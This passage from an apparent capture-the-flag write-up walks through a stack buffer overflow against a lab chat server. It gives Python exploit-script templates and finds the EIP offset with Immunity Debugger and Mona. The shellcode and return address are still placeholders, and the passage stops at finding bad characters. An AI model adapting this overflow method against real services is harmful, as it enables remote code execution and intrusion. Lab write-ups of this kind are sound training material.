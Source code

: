 Before I stick it in my exploit script, I have to modify it so that I can first submit a username, then the buffer.

```python
#!/usr/bin/python3
import socket

ip = "10.10.69.5" # Set to remote machine ip
port = 9999

prefix = ""
offset = 0 # byte offset here
overflow = "" * offset # Optional, set A to \x90 
retn = "" # JMP ESP (don't forget to reverse if little endian!)
padding = ""#"\x90" * 16
payload = "" # shell code
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("[+] Sending username...")
  s.send(bytes("An00bRektn" + "\r\n", "latin-1"))
  s.recv(1024)
  print("[+] Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  s.recv(1024)
  print("[+] Done!")
except:
  print("[-] Could not connect. Try checking if the program is running?")
```

I'm going to put the generated pattern into the exploit and see what Immunity Debugger has to say about it.

![asdf](https://an00brektn.github.io/img/thm-brainstorm/Pasted image 20210904163639.png)

As you can see, the pointers in the program are completely overwritten, meaning that the program has no idea where to point next. Using this data, we can use a plugin called Mona to show us the offset. Entering `!mona findmsp -distance 3000` will show us the following:

![asdf](https://an00brektn.github.io/img/thm-brainstorm/Pasted image 20210904164043.png)

We find that the EIP is offset by 2012 bytes, which we can add to our exploit.

### Find Bad Characters
Right now, our exploit should look like this:
```python
#!/usr/bin/python3
import socket

ip = "10.10.69.5" # Set to remote machine ip
port = 9999

prefix = ""
offset = 2012 # byte offset here
overflow = "A" * offset # Optional, set A to \x90 
retn = "BBBB" # JMP ESP (don't forget to reverse if little endian!)
padding = ""#"\x90" * 16
payload = "" # shell code
postfix = ""

```